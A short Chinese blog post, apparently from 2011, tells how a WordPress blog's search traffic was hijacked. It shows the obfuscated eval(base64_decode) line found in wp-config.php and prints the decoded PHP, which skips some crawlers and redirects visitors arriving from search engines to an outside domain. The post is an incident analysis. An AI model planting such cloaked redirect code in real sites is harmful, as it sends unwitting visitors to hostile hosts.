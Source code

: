 &emsp;&emsp;昨天在微博看到一个不错的个人博客站点出现问题，google搜索结果被劫持，直接跳转到hitpitlit.osa.pl。当时柴子就联想到最近的美国ISP劫持事件（[链接](http://www.guao.hk/posts/isps-caught-hijacking-redirecting-search-results.html)），结果走入歪路，还是天毅和A.shun 判断正确，是被人植入了代码。

&emsp;&emsp;刚才天毅拿到cp，直接查看代码，最后终于在wp-config.php中发现问题（真猥琐，该文件不会随着程序更新而更新）


> eval(base64_decode("DQoNCmVycm9yX3JlcG9ydGluZygwKTsNC…………QoJfQ0KCX0=")); （不完全引用，太长）



### base64解码后：

```
···
error_reporting(0);
$qazplm=headers_sent();
if (!$qazplm){
$referer=$_SERVER['HTTP_REFERER'];
$uag=$_SERVER['HTTP_USER_AGENT'];
if ($uag and !stristr($uag,"StackRambler") and !stristr($uag,"aport") and !stristr($uag,"WebAlta") and !stristr($uag,"aport") and !stristr($uag,"compatible; Yandex") and !stristr($uag,"dyatel")) {
if (stristr($referer,"yandex") or stristr($referer,"yahoo") or stristr($referer,"google") or stristr($referer,"bing") or stristr($referer,"rambler") or stristr($referer,"gogo") or stristr($referer,"live")  or stristr($referer,"aport") or stristr($referer,"nigma") or stristr($referer,"webalta") or stristr($referer,"meta.ua") or stristr($referer,"bigmir.net") or stristr($referer,"tut.by") or stristr($referer,"ukr.net") or stristr($referer,"poisk.ru") or stristr($referer,"liveinternet.ru") or stristr($referer,"gde.ru") or stristr($referer,"quintura.ru") or stristr($referer,"qip.ru") or stristr($referer,"mail.ru") or stristr($referer,"metabot.ru")) {
if (!stristr($referer,"cache") or !stristr($referer,"inurl")){
header("Location: http://hitpitlit.osa.pl/threat/");
exit();
}
}
}
}
```
&emsp;&emsp;天毅怀疑是前苏联尤其是俄罗斯人的代码，哦~ 传说中地球上最强悍的地区

<!-- ##{"timestamp":1314617136}## -->